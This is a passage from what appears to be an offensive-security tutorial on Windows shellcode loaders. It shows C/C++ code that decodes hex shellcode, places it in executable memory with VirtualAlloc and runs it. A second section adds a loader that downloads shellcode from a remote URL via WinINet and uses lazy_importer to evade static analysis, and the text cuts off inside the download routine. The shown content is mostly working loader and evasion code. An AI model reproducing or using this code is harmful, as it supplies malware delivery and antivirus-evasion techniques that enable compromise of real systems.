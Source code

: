 ```
    unsigned char* buffer = (unsigned char*)malloc(size);
    hexStringToBytes(contents, buffer, size);

    // Allocate executable memory and copy shellcode
    void* exec = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buffer, size);

    // Execute shellcode
    ((void(*)())exec)();

    free(buffer);
    return 0;
}
```

- \***hexStringToBytes**: Converts a hex string into a byte array.
- **VirtualAlloc**: Allocates a memory region with executable permissions (`PAGE_EXECUTE_READWRITE`).
- **memcpy**: Copies the shellcode into the allocated memory.
- The shellcode is then executed by casting the memory region to a function pointer and calling it.

##### Shellcode from Remote URL (Bypassing Static Analysis)

This example fetches the shellcode from a remote URL and executes it. The code uses **WinINet** API to download the hex-encoded shellcode and **lazy\_importer** to dynamically call functions, bypassing detection.

```
#include <windows.h>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")
#include <iostream>
#include <vector>
#include "lazy_importer.hpp"

using namespace std;

// Convert hex character to byte
unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') return character - '0';
    if (character >= 'a' && character <= 'f') return character - 'a' + 10;
    if (character >= 'A' && character <= 'F') return character - 'A' + 10;
    return 0;
}

// Convert hex string to byte array
void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
    for (int i = 0; i < hexString.length(); i += 2) {
        byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
    }
}

// Download hex-encoded shellcode from URL and convert to byte array
size_t GetUrl_HexContent(LPSTR url, std::vector<unsigned char>& buffer) {
    HINTERNET hInternet, hConnect;
    DWORD bytesRead;
    DWORD contentLength = 0;
    DWORD bufferLength = sizeof(contentLength);

    hInternet = InternetOpen(L"User Agent", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) return 0;

    hConnect = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        InternetCloseHandle(hInternet);
```